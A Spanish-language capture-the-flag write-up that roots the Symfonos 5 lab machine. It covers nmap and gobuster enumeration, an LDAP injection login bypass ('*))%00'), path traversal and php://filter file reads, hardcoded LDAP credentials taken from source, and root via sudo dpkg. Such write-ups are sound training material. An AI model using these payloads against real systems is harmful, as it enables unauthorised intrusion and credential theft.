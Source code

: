 ```yaml
---
title: "Symfonos 5"
layout: single
category: "Writeups"
slug: "writeups/symfonos-5"
date: 2025-09-30
---
```


# Symfonos 5
### Enumeracion
```bash
nmap 10.0.0.4 -p- -n -Pn -sS -sCV -T5 -oN scan  
```

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:70:13:77:22:f9:68:78:40:0d:21:76:c1:50:54:23 (RSA)
|   256 a8:06:23:d0:93:18:7d:7a:6b:05:77:8d:8b:c9:ec:02 (ECDSA)
|_  256 52:c0:83:18:f4:c7:38:65:5a:ce:97:66:f3:75:68:4c (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
636/tcp open  ldapssl?
MAC Address: 00:0C:29:B7:25:27 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visitamos la web y nos encontramos con una simple imagen, así que hacemos fuzzing con gobuster.
```bash
gobuster dir -u 'http://10.0.0.4' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php, html, txt, sh, pl, py 
```

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 207]
/.php                 (Status: 403) [Size: 273]
/home.php             (Status: 302) [Size: 0] [--> admin.php]
/admin.php            (Status: 200) [Size: 1650]
/static               (Status: 301) [Size: 305] [--> http://10.0.0.4/static/]
/logout.php           (Status: 302) [Size: 0] [--> admin.php]
/portraits.php        (Status: 200) [Size: 165]
/.                    (Status: 200) [Size: 207]
/.php                 (Status: 403) [Size: 273]
/server-status        (Status: 403) [Size: 273]

```

### LDAP Injection
En el panel de admin, se probaron:
* Credenciales tipicas
* SQL injection
* Fuerza bruta

Pero la única que dio resultado, fue *LDAP Injection*, con Wfuzz y un diccionario que se encuentra en el apartado de *Hacking Servicios > 389 LDAP*

Primero se pasó la petición por burpsuite y ésta luego por wfuzz poniendo el parámetro FUZZ en los campos username y password.
```bash
`wfuzz -c -z file,/ruta/al/diccionario -u 'http://10.0.0.4/admin.php?username=FUZZ&password=FUZZ'
```
```bash
## EL PARÁMETRO SIGUIENTE FUE EL QUE FUNCIONÓ PARA HACER EL LOGIN BYPASS
*))%00         
``` 

### Remote File Inclusion
Una vez dentro, nos redirige a *home.php* , no vemos nada interesante así que analizamos el código fuente y vemos lo siguiente:
```bash
 <li class="nav-item">
        <a class="nav-link" href="home.php?url=http://127.0.0.1/portraits.php">Portraits</a>
      </li>
```

En el campo *url* parece que hay un RFI, y es totalmente funcional, mostrando el /etc/passwd
```bash
http://10.0.0.4/home.php?url=../../../etc/passwd
```

Se analizó el admin.php utilizando wrappers en busca de información interesante y vemos lo siguiente:
```bash
http://10.0.0.4/home.php?url=php://filter/convert.base64-encode/resource=admin.php

Pasando el código por base64 -d, vemos:

$bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "qMDdyZh3cT6eeAWD");
```

### Intrusión
Realizamos una enumeración con nmap aprovechando las credenciales de admin y localizamos un usuario con su contraseña y accedemos a la máquina por ssh.
```bash
nmap 10.0.0.4 -p 389 --script ldap-search --script-args 'ldap.username="cn=admin,dc=symfonos,dc=local", ldap.password="qMDdyZh3cT6eeAWD"'
```
```bash
userPassword: cetkKf4wCuHC9FET
mail: zeus@symfonos.local
```

### Escalada de privilegios
Probamos Sudo -l y vemos que podemos correr dpkg como root sin contraseña
```bash
eus@symfonos5:~$ sudo -l
Matching Defaults entries for zeus on symfonos5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zeus may run the following commands on symfonos5:
    (root) NOPASSWD: /usr/bin/dpkg
```

Vamos a gtfobins y econtramos esto:
```bash
sudo dpkg -l
!/bin/sh
```

Lo ejecutamos, y hemos comprometido y escalado 100% en la máquina.
```bash
# whoami 
root
# cat proof.txt
 
                    Congrats on rooting symfonos:5!
  
                                   ZEUS
              *      .            dZZZZZ,       .          *
                                 dZZZZ  ZZ,
     *         .         ,AZZZZZZZZZZZ  `ZZ,_          *
                    ,ZZZZZZV'      ZZZZ   `Z,`\
                  ,ZZZ    ZZ   .    ZZZZ   `V
        *      ZZZZV'     ZZ         ZZZZ    \_              .
.              V   l   .   ZZ        ZZZZZZ          .
               l    \       ZZ,     ZZZ  ZZZZZZ,
   .          /            ZZ l    ZZZ    ZZZ `Z,
                          ZZ  l   ZZZ     Z Z, `Z,            *
                .        ZZ      ZZZ      Z  Z, `l
                         Z        ZZ      V  `Z   \
                         V        ZZC     l   V
           Z             l        V ZR        l      .
            \             \       l  ZA
                            \         C          C
                                  \   K   /    /             K
                          A    \   \  |  /  /              /
                           \        \\|/ /  /
   __________________________________\|/_________________________
            Contact me via Twitter @zayotic to give feedback!

# 

```









